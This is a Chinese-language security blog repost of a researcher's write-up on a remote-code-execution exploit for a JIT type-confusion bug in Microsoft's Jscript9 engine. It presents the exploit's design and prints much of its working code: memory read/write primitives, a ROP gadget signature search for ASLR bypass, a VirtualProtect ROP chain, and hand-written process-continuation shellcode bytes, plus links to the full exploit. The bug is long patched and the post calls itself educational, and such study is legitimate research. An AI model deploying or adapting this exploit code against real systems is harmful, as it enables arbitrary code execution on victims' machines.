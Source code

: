 #  Pwn2Own 2021 Jscript9 远程代码执行漏洞   
 Ots安全   2024-03-24 12:33  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
这是我前段时间为 Jscript9.dll 中的 JavaScript JIT 类型混淆漏洞编写的漏洞利用的简短文章。  
  
  
我展示了一种利用 JavaScript 引擎中类型混淆漏洞的经典技术。该漏洞利用完全动态的 ASLR 旁路，以及避免崩溃的最先进的进程延续。不使用堆喷射，该漏洞通过精确控制程序状态和 shellcode 的原子放置来发挥作用。影响是任意远程代码执行。该漏洞并未武器化，并且出于教育目的而发布。  
  
  
**文件**  
  
exploit.html：漏洞利用的发布版本。demo.mp4：视频演示。debug/：带有调试助手和注释的代码的特殊版本。  
  
  
**错误**  
  
该错误已于 2017 年修复，这是由于 JIT 优化而导致 Microsoft Jscript9 JavaScript 引擎代码中的类型混淆，其中对象可能被错误地视为内存地址或相反。  
  
  
**利用架构**  
  
我在我的漏洞利用代码中遵循系统工程流程。我首先在适当的内存损坏漏洞之上定义基本原语，例如 write() 和 read() 任意内存。之后，我定义下一个顺序（但仍然是低级）原语，例如 getObjectAt() 和 getAddrOf()。之后，我定义了高级漏洞利用原语，例如 getStack() 和bypassASLR()。完成所有这些后，利用主函数就只有三行代码。  
  
  
带有调试注释的高级漏洞 API 示例：  
```
function getStack() {

let type = read32( getAddrOf([{}]) + 4)
log("Type: 0x" + type.toString(16))
let javascriptLibrary = read32(type + 4)
log("JavascriptLibrary: 0x" + javascriptLibrary.toString(16))
let scriptContext = read32(javascriptLibrary + 0x21c)
log("ScriptContext: 0x" + scriptContext.toString(16))
let threadContext = read32(scriptContext + 0x250) // find this and above offsets in eg. js::GlobalObject::EntryParseInt
log("ThreadContext: 0x" + threadContext.toString(16)) // (anyone who calls ThreadContext::IsStackAvailable)
let stackLimit = read32(threadContext + 0x18) // find offset in ThreadContext::IsStackAvailable
log("StackLimitForCurrentThread: 0x" + stackLimit.toString(16))
let stackBottom = stackLimit - 0xc000 + 2*1024*1024 - 4
log("Stack bottom: 0x" + stackBottom.toString(16))

return stackBottom

}
```  
  
您在 main 函数中提供的 shellcode 是直接模板化的：所有必要的 CoE 和 VirtualProtect 子 shellcode 都在原语中定义。  
  
  
由于系统化的设计，该漏洞被证明很容易维护（而我最初依赖于固定的二进制偏移量并且没有动态 ASLR 旁路），并且在目标软件的几十个版本中 100% 稳定。  
  
  
**动态设计**  
  
在漏洞利用代码的最终版本中，我动态地定位 ROP 小工具以消除对固定二进制偏移量的依赖。这使得该漏洞在我测试期间（目标软件更新大约一年）内 100% 不会过时。  
  
  
我使用名为 findSignature 的特殊函数扩展 Uint8Array 数组原型  
```
Uint8Array.prototype.findSignature = function( signature ) {

function check( element, index, ary ) {
if ( element != signature[0] ) return false;          
for ( var i = 0; i < signature.length; i++ ) {
if ( signature[i] == undefined ) continue;
if ( ary[index+i] != signature[i] ) return false;
      }
return true;
   }

return this.findIndex(check)

}
```  
  
然后你会发现 ROP 小工具如下：  
```
jscript9.ret = jscript9.findSignature([0x89, 0x45, 0xec, 0x85, 0xc0, 0x78, 0x1c, 0x8b, 0x45, 0x08, 0x85, 0xc0, 0x74, 0x15, 0x8b, 0x4e, 0x10])
if ( jscript9.ret == -1 ) return undefined

jscript9.gadget1 = jscript9.findSignature([0x5f, 0x5e, 0xc3])
if ( jscript9.gadget1 == -1 ) return undefined

jscript9.gadget2 = jscript9.findSignature([0xff, 0x75, 0x14, 0x57, 0x56, 0xff, 0x15, ,,,, 0x5f, 0x5e, 0x5b, 0x8b, 0xe5, 0x5d, 0xc2, 0x18])
if ( jscript9.gadget2 == -1 ) return undefined
```  
  
工作起来就像一个魅力（我实际上几年前在推特上发布了这项技术），不，我不建议在使用脚本编程语言进行编码时省略分号。  
  
  
**多阶段Shellcode**  
  
我的漏洞利用设计抽象出了几个与功能负载无关的低级 shellcode 阶段。奇怪的程序状态控制从堆栈上的一些 ROP 小工具开始。您的 shellcode（功能有效负载）处于第 2 阶段（您将其传递给漏洞利用函数）。第 1 阶段 shellcode 处理对 VirtualProtect() 的调用，为功能 shellcode 提供一些可写内存。第 3 阶段 shellcode 处理进程延续。这是带有调试注释的示例：  
```
let stage1 = new Uint32Array([
// = original esp
   jscript9.base + jscript9.gadget1,  // pop edi; pop esi; retn
3, 2, 1, 0,  // ScriptSite::Execute said retn 10h
// arguments...
0x1000, // size
   stage2_3.addr,  // lpAddress
   jscript9.base + jscript9.gadget2, // push args; call VirtualProtect()
// pushed arguments frame in VirtualProtect:
// stage2_3,
// 0x1000,
// 0x40,
   stage2_3.addr + stage2_3.length - 4, // dwOldProtect pointer
// = esp on returned from VirtualProtect (ret 10h)
1, 2, 3, 4, 5, 6, // mov esp, ebp in ::ProtectPages will eat this
0, 1, 0, 1, 0, 1,
0, 1, 0, 1, 0, 1,
0, 1, 0, 1, 0, 1,
// = original ebp
1, // pop ebp
   stage2_3.addr, // return to shellcode (ret 18h in ::ProtectPages)
// ...CoE filler (ret 18h)
0, 0, 0,
0x40, // ebp+14h PAGE_EXECUTE_READWRITE
0, 0
]);
stage1.addr = read32( getAddrOf(stage1) + 8*4 )
dump("stage1", stage1)
```  
  
**流程延续**  
  
进程延续代码并不简单。我对目标软件二进制文件进行了逆向工程，以找出如何修复被漏洞利用破坏的寄存器和堆栈。CoE shellcode 是从头开始制作的。  
```
let stage3 = new Uint8Array([
0x31, 0xc0,  // xor eax, eax
0xb9, 0, 0, 0, 0, // mov ecx, coe4.length
0xbe, 0, 0, 0, 0, // mov esi, coe4.buffer
0xbf, 0, 0, 0, 0, // mov edi, retPtr
0x8b, 0xe7, // mov esp, edi
0xf3, 0xa5, // rep movsd
0x8b, 0xec, // mov ebp, esp
0x81, 0xc5, 0x84, 0, 0, 0, // add ebp, 84h
0xbe, 0, 0, 0, 0, // mov esi, *(retPtr + f0h)
0xc2, 0x10, 0, // ret 10h
0x9f, 0x9f, 0x9f, 0x9f // placeholder
   ]);
   stage3.addr = read32( getAddrOf(stage3) + 8*4 );
dump("stage3", stage3)

let stage2_3 = new Uint8Array(stage2.length + stage3.length)
   stage2_3.addr = read32( getAddrOf(stage2_3) + 8*4 );
dump("stage2_3", stage2_3)
   log("Shellcode + CoE: 0x" + stage2_3.addr.toString(16))

   ... arbitrary payload placement ... 

// fixup continuation:

   write32(retPtr + 4*4, 0x48 + coe4.addr)
   write32(stage3.addr + 3, stage1.length)
   write32(stage3.addr + 8, coe4.addr)
   write32(stage3.addr + 13, retPtr)
   write32(stage3.addr + 30, read32( retPtr + 0xf0 ));

   stage2_3.set(stage2, 0)
   stage2_3.set(stage3, stage2.length)

dump("final shellcode", stage2_3)

// ready
```  
  
我的 CoE 代码的一个已知限制是它依赖于编译器的静态寄存器分配，我凭经验验证了这一点适用于目标软件，但理论上不能保证适用于目标二进制文件的所有未来版本。  
  
  
**调试**  
  
为了方便学习，我在 debug/ 目录中包含了四个调试版本的代码。每个版本的调试代码都是高级漏洞利用工程的一个特定阶段的快照。  
  
  
我们从一个简单的测试用例开始，它通过概念证明清楚地显示了该漏洞：a）具有任意内存读取的CPU寄存器控制，这会导致访问冲突（test-crash.html）和b）泄漏一些堆内存（test-泄漏.html）。注意：我跳过 RCE PoC，因为众所周知 bug 类提供了这种功能。接下来，我们开始编写漏洞利用程序，首先旨在执行基本的任意代码，然后解决进程延续问题，最后删除漏洞利用程序中对固定二进制偏移量的所有依赖，使其面向未来。  
  
  
版本目标：0.1：RCE 0.2 和 0.3：流程延续 0.4：动态 ASLR 绕过。  
  
  
**代码**  
  
https://zerodayengineering.com/code/jscript9-exploit.zip  
  
https://github.com/badd1e/Pwn/tree/main/jscript9-RCE  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
